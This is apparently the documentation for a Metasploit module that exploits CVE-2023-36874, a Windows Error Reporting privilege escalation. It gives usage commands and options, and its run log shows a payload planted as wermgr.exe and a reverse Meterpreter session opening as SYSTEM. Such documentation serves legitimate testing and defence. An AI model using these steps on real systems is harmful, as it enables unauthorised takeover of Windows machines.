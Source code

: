 ## Introduction

This module takes advantage of a bug in the way Windows error reporting opens the report
parser.  If you open a report, Windows uses a relative path to locate the rendering program.
By creating a specific alternate directory structure, we can coerce Windows into opening an
arbitrary executable as SYSTEM.
If the current user is a local admin, the system will attempt impersonation and the exploit will
fail.

This module will attempt to delete the payload it uploads and the directory structure 

## Vulnerable Application
This module works only on Windows 10x64 22H2

## Installation Instructions
1. Install Windows 10x64 22H2
1. Create a standard user


## Usage

1. Create a session on the target system under the context of a non local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/win_error_cve_2023_36874`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.


## Options
1. `EXPLOIT_NAME` The filename to use for the exploit binary (%RAND%.exe by default)
1. `REPORT_DIR` The Error Directory to use (%RAND% by default).
1. `REPORT_NAME` The Error report name (%RAND% by default).
1. `SHADOW_DRIVE` Directory to place in the home drive for pivot (%TEMP% by default).
1. `EXECUTE_DELAY` The number of seconds to delay between file upload and exploit launch.  Default is 3.

## Scenarios

### Windows 10.0.19045.2006 x64 (Windows 10x64 22H2)

```
msf6 exploit(windows/local/win_error_cve_2023_36874) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 10+ Build 19045
[+] The target appears to be vulnerable.
[*] Shadow Path = C:\NpIWBsCJozK
[*] Attempting to PrivEsc on DESKTOP-V413087 via session ID: 1
[*] C:\ProgramData
[*] Creating C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] Creating directory C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing Report to C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating directory C:\NpIWBsCJozK
[*] C:\NpIWBsCJozK created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\
[*] C:\NpIWBsCJozK\ProgramData\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing bad Report to C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating C:\NpIWBsCJozK\system32
[*] Creating directory C:\NpIWBsCJozK\system32
[*] C:\NpIWBsCJozK\system32 created
[*] Writing payload to C:\NpIWBsCJozK\system32\wermgr.exe
[*] shadow_path = NpIWBsCJozK
[*] Exploit uploaded on DESKTOP-V413087 to C:\NpIWBsCJozK\fShpLfYh.exe
[*] Sending stage (200774 bytes) to 10.5.132.118
[+] Deleted C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] 
[+] Deleted C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.132.118:62415) at 2023-09-19 15:43:02 -0500
[-] Failed to delete C:\NpIWBsCJozK\system32: stdapi_fs_delete_dir: Operation failed: The directory is not empty.

meterpreter > sysinfo
Computer        : DESKTOP-V413087
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit

```
